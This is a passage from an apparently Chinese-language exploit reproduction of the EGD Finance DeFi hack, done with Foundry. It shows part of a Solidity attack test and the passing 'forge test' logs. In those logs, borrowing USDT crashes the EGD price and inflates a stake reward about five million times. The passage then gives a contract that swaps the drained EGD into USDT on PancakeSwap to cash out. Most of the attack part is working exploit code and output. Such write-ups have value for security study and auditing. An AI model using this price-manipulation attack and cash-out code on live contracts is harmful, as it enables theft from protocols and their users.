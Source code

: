 ```solidity
            "edg i get from the stake reward:",
            IERC20(egd).balanceOf(address(this))
        );

        require(success);
    }
}

```



输出:

```
~/Desktop/EGDFinanceDemo main !2 9 ❯ forge test --match-contract HackTest1  -vv
[⠑] Compiling...
[⠢] Compiling 1 files with 0.8.17
[⠰] Solc 0.8.17 finished in 2.44s
Compiler run successful

Running 1 test for test/Hack.t.sol:HackTest1
[PASS] testHack() (gas: 909189)
Logs:
  all edg in EGD_Finance: 5678872403240763806350000
  edg price before: 8096310933284567
  egd i should reward by noraml case: 1093999999999910400
  edg price after (i borrowed huge USDT out): 194311462398
  edg i get from the stake reward: 5630136207606302655330000
```

可以看到, 我们本来只能领取EDG:  1093999999999910400  变成了  5630136207606302655330000, 放大了500万倍.



### 将获利兑换为USDT进行套现



我这里为了让逻辑更清晰, 新建一个合约专门用于USDT兑换:

```solidity
contract Egd2USDT {
    function swap2usdt() public {
        IERC20(egd).transferFrom(
            msg.sender,
            address(this),
            IERC20(egd).balanceOf(msg.sender)
        );

        //将egd兑换成usdt
        address[] memory path = new address[](2);
        path[0] = egd;
        path[1] = usdt;
        IERC20(egd).approve(address(pancakeRouter), type(uint256).max);
        pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            IERC20(egd).balanceOf(address(this)),
            1,
            path,
            address(msg.sender),
            block.timestamp
        );
    }
}
```
